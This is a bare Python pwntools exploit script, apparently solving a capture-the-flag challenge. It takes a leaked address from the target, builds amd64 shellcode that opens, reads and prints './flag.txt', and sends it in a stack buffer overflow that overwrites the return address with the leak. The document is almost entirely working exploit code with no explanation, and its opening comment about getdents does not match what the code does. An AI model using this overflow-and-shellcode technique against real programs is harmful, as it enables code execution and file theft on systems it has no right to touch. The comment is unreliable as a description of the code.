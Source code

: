 ```py

# getdents syscall to list the files in the current directory or any directory

def exploit():

  ru(b'mylib.dll ')
  leak = int((rl().split(b" ")[0][:-1]),16)
  print(hex(leak))

  sc = asm('''nop\n'''*0x10+'''

        xor rax, rax
        mov rax, 0x101
        mov rdi, -100
        lea rsi, [rip + file_path]
        syscall

        mov rdi, rax
        mov rsi, rsp
        mov rdx, 0x50
        mov rax, 0
        syscall

        mov rdx, 0x50
        mov rdi, 1
        mov rsi, rsp
        mov rax, 1
        syscall

        file_path:
            .asciz "./flag.txt"

        ''', arch='amd64')

    # sc = asm(shellcraft.openat(-1, "/home/user/flag.txt"))
    # sc += asm(shellcraft.read('rax', 'rsp', 0x50))
    # sc += asm(shellcraft.write(1, 'rsp', 0x50))

  s(sc.ljust(0x408, b'A') + p64(leak))

  interactive()

if __name__ == '__main__':
  exploit()
```
